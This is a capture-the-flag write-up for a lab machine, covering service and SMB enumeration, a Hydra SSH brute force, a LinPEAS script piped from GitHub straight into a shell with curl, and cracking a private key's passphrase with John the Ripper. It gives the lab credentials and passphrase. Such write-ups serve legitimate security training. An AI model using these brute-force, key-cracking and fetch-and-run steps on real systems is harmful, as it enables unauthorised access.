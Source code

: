 # CTF Writeup -- Exploiting Weak Credentials and Privilege Escalation

## Enumeration

### Nmap Scan

Initial port scanning revealed several open services:

``` bash
nmap -sC -sV 10.201.123.193
```

    Not shown: 994 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    8009/tcp open  ajp13
    8080/tcp open  http-proxy
    MAC Address: 16:FF:C4:EE:07:79 (Unknown)

The box is running SSH, web services (port 80 & 8080), and SMB
(139/445).

------------------------------------------------------------------------

### Web Enumeration

Using **Gobuster** against the HTTP service on port 80 uncovered an
interesting `/development` directory:

``` bash
gobuster dir -u http://10.201.123.193 -w /usr/share/wordlists/dirb/common.txt
```

    /development          (Status: 301) [--> http://10.201.123.193/development/]
    /index.html           (Status: 200)
    /server-status        (Status: 403)

Inside `/development`, there were developer notes hinting that the user
**j** had a weak password.

------------------------------------------------------------------------

### SMB Enumeration

Running **enum4linux** against the target listed three valid local
users:

``` bash
enum4linux -a 10.201.123.193
```

    S-1-22-1-1000 Unix User\kay (Local User)
    S-1-22-1-1001 Unix User\jan (Local User)
    S-1-22-1-1002 Unix User\ubuntu (Local User)

Combined with the hint from `/development`, this suggested brute forcing
**jan's SSH password**.

------------------------------------------------------------------------

## Exploitation

### SSH Brute Force

Using **Hydra** with the RockYou wordlist:

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.201.123.193 -t 4
```

Successful credentials:

    jan : armando

We can now SSH into the machine as **jan**.

------------------------------------------------------------------------

## Privilege Escalation

### Enumeration with LinPEAS

After gaining a foothold, ran **LinPEAS** to enumerate privilege
escalation vectors:

``` bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS discovered an SSH private key (`id_rsa`) belonging to user
**kay**.

------------------------------------------------------------------------

### Cracking the Private Key

The key was encrypted, so it was converted into a hash and cracked with
**John the Ripper**:

``` bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

The passphrase was cracked:

    beeswax

------------------------------------------------------------------------

### Access as Kay

Using the decrypted private key, we SSH'd into the box as **kay**:

``` bash
ssh -i id_rsa kay@10.201.123.193
```

Inside kay's home directory was a file named `pass.bak`.

``` bash
cat pass.bak
```

This revealed the **final flag**.

------------------------------------------------------------------------

## Conclusion

This machine required:

-   Enumeration of SMB and web services\
-   Identifying weak SSH credentials (jan → armando)\
-   Privilege escalation via Kay's SSH private key (passphrase:
    beeswax)\
-   Extracting the final flag from Kay's account
